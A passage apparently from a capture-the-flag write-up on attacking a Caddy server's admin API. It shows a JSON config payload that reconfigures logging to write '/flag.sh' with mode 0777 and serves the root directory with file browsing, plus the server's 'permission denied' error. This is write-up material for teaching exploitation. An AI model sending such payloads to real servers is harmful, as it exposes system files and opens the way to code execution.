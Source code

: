 ```http
Content-Length: 633
{
  "logging": {
    "logs": {
      "default": {
        "exclude": ["http.log.access"],
        "writer": {
          "output": "file",
          "filename": "/flag.sh",
          "mode": "0777"
        }
      }
    }
  },
  "apps": {
    "http": {
      "servers": {
        "example": {
          "listen": [":80"],
          "routes": [
            {
              "handle": [
                {
                  "handler": "file_server",
                  "root": "/",
                  "browse": true
                }
              ]
            }
          ]
        }
      }
    }
  }
}
```

But we again get the error of opening the file. The server opens the file before changing the permissions. We have to try harder.
```http
HTTP/1.1 400 Bad Request
Content-Length: 300
Content-Type: application/json
Date: Sat, 24 May 2025 19:16:22 GMT
Via: 1.1 Caddy
{"error":"loading config: loading new config: setting up default log: opening log writer using \u0026logging.FileWriter{Filename:\"/flag.sh\", Mode:0x1ff, Roll:(*bool)(nil), RollSizeMB:0, RollCompress:(*bool)(nil), RollLocalTime:false, RollKeep:0, RollKeepDays:0}: open /flag.sh: permission denied"}
```

### File write with arbitrary permissions
